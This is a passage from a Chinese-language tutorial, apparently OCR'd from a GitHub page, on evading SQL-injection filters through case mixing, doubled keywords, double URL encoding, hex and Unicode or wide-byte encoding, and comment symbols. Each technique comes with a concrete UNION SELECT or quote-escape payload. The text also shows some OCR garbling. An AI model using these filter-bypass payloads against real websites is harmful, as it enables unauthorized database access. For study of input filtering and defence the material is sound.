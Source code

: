     1. 大小写混合
        大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 大小写不敏感即无法绕过，这是最简单的绕过技术

    举例：z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 

    示例场景可能的情况为filter的规则里有对大小写转换的处理，但不是每个关键字或每种情况都有处理

    2. 替换关键字
        这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过

    举例：z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4

    同样是很基础的技术，有些时候甚至构造得更复杂：SeLSeselectleCTecT，不建议对此抱太大期望

    3. 使用编码
    - URL编码

    &emsp;&emsp;在Chrome中输入一个连接，非保留字的字符浏览器会对其URL编码，如空格变为%20、单引号%27、左括号%28、右括号%29
    普通的URL编码可能无法实现绕过，还存在一种情况URL编码只进行了一次过滤，可以用两次编码绕过：

    ```sql
    page.php?id=1%252f%252a*/UNION%252f%252a /SELECT #
    ```

    - 十六进制编码                             

    举例：

	```sql
	z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4
	SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))
	```
&emsp;&emsp;示例代码中，前者是对单个字符十六进制编码，后者则是对整个字符串编码，使用上来说较少见一点 

    - Unicode编码

&emsp;&emsp;Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了

&emsp;&emsp;看一下常用的几个符号的一些Unicode编码：

    单引号: `%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7`
    
    空格: `%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0`
    
    左括号: `%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8`
    
    右括号: `%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9`
    
    举例: `?id=10%D6'%20AND%201=2%23`　　#'

&emsp;&emsp;两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\，那么就变成了%D6%5C，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过
&emsp;&emsp;另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的

例子:
    
4. 使用注释
   
    看一下常见的用于注释的符号有哪些：

    //, -- , /**/, #, --+,--  -, ;，--a
